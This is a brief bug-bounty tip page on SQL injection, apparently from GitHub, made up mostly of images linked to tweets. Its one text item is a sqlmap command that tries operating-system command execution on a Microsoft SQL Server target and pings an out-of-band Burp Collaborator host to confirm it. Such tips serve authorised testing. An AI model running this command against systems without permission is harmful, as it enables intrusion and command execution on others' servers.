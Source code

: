<h1 align="center">SQLI --> SQL Injection</h1>

<a href="https://twitter.com/hackersden_/status/1465229358545526787" align="right"><img width="550" height="600px" align="left" src="https://user-images.githubusercontent.com/79082257/143884335-9adfa71d-7b23-49b7-9afb-996e800d1c68.png"/></a>

Run

```bash
  sqlmap -r request.txt --force-ssl -p pramater --level 5 --risk 2 -dbms="Microsoft SQL Server" --os-cmd="ping http://your.burpcollaborator.net"
```

<h2 align="left">---------------------------------</h2>

<a href="https://twitter.com/GodfatherOrwa/status/1439247081655447566"><img width="550" height="700px" align="left" src="https://user-images.githubusercontent.com/79082257/143886364-f03183e1-5922-4b79-9002-a04bfa55c56a.png"/></a>

